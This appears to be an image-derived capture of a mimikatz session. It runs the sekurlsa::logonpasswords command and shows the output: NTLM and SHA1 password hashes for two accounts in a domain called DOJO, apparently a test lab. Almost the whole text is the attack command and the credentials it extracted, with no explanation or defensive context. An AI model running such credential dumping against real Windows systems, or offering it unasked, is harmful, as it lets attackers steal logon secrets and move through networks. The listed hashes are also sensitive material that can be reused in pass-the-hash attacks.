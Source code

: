   .#####.   mimikatz 2.0 alpha (x64) release "Kiwi en C" (Feb 16 2015 22:15:28)
 .## ^ ##.  
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 15 modules * * */


mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 26471274 (00000000:0193eb6a)
Session           : Interactive from 0
User Name         : aleslandes
Domain            : DOJO
SID               : S-1-5-21-2776015209-2098307006-2719327015-1110
	msv :
	 [00000003] Primary
	 * Username : aleslandes
	 * Domain   : DOJO
	 * NTLM     : 7c4fe5eada682714a036e39378362bab
	 * SHA1     : 0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb
	 [00010000] CredentialKeys
	 * NTLM     : 7c4fe5eada682714a036e39378362bab
	 * SHA1     : 0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb
	tspkg :
	wdigest :
	 * Username : aleslandes
	 * Domain   : DOJO
	 * Password : (null)
	kerberos :
	 * Username : aleslandes
	 * Domain   : DOJO.LOCAL
	 * Password : (null)
	ssp :	KO
	credman :

Authentication Id : 0 ; 25025850 (00000000:017ddd3a)
Session           : RemoteInteractive from 2
User Name         : gdupuis
Domain            : DOJO
SID               : S-1-5-21-2776015209-2098307006-2719327015-1108
	msv :
	 [00000003] Primary
	 * Username : gdupuis
	 * Domain   : DOJO
	 * NTLM     : 32ed87bdb5fdc5e9cba88547376818d4
	 * SHA1     : 6ed5833cf35286ebf8662b7b5949f0d742bbec3f
	 [00010000] CredentialKeys
	 * NTLM     : 32ed87bdb5fdc5e9cba88547376818d4
	 * SHA1     : 6ed5833cf35286ebf8662b7b5949f0d742bbec3f
	tspkg :
	wdigest :
	 * Username : gdupuis
	 * Domain   : DOJO
	 * Password : (null)
	kerberos :
	 * Username : gdupuis
	 * Domain   : DOJO.LOCAL
	 * Password : (null)
	ssp :	KO
	credman :
	 [00000000]